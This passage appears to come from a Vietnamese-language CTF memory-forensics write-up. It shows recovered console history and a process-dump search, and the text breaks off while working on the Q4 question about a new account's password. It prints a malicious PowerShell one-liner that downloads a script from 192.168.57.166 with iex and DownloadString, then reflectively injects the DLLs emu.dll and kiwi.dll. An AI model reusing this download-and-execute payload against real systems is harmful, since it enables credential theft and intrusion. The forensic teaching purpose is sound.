```

Cmd #0 at 0x2e2c38: cd C:\Users\emu\Downloads
Cmd #1 at 0x2e2358: .\monkey.doc.ps1
Cmd #2 at 0x304588: r
----
Screen 0x2e68f0 X:120 Y:3000
Dump:
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Users\emu\Downloads
PS C:\Users\emu\Downloads> .\monkey.doc.ps1

Security Warning
Run only scripts that you trust. While scripts from the Internet can be useful, this script can potentially harm your
computer. Do you want to run C:\Users\emu\Downloads\monkey.doc.ps1?
[D] Do not run  [R] Run once  [S] Suspend  [?] Help (default is "D"): r

Id              Name            State      HasMoreData     Location             Command
--              ----            -----      -----------     --------             -------
1               Job1            Running    True            localhost            iex (New-Object net.we...
3               Job3            Running    True            localhost            iex (New-Object net.we...


PS C:\Users\emu\Downloads>
```

##### Q2: What was the name of the powershell module used? eg invoke-mimikatz && Q3: What were the names of the two files executed from the malicious executable (In alphabetical order with - in between and no spaces)? eg malware.exe-malware2.exe
- Khi tải file `monkey.doc.ps1` thì ta được code sau :
```
Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/emu.dll};Start-Job -ScriptBlock {iex (New-Object net.webclient).Downloadstring('http://192.168.57.166/reflective/reflect.ps1'); Invoke-ReflectivePEInjection -PEUrl http://192.168.57.166/documents/kiwi.dll}
```
- Ta có thể nhận ra được là file đó nó sẽ tải 2 file `emu.dll` và `Kiwi.dll` và thực thi 2 file đó bằng powershell module `Invoke-ReflectivePEInjection`. Toàn bộ cách trên có thể cho thấy cách tấn công này có thể là [reflective DLL injection](https://www.hackthebox.com/blog/reflection-ca-ctf-2022-forensics-writeup).

##### Q4: What was the password of the new account created through powershell? eg strong-password123.
- Khi check bằng cmdline thì ta có thể thấy 2 file `monkey.doc.ps1` và `Monke.xlsm` đều được mở bằng `notepad` mà file `monkey.doc.ps1` ta đã tải về được rồi vậy chi còn file còn lại ta có thể dump cả tiến trình có thể sẽ kiếm được 1 cái gì đó.
- Quả thật là kiếm được 1 cái gì đó khi filter `powershell` ta lại được 1 script khác nữa.
```
└─$ strings pid.4044.dmp | grep "powershell"          
powershell.exe
powershell/
powershell.exe
powershell.exe
powershell.exe
powershell/
ly loaded EXE won't kill the powershell process when it exits, it will just kill its own thread.
ly loaded EXE won't kill the powershell process when it exits, it will just kill its own thread.
```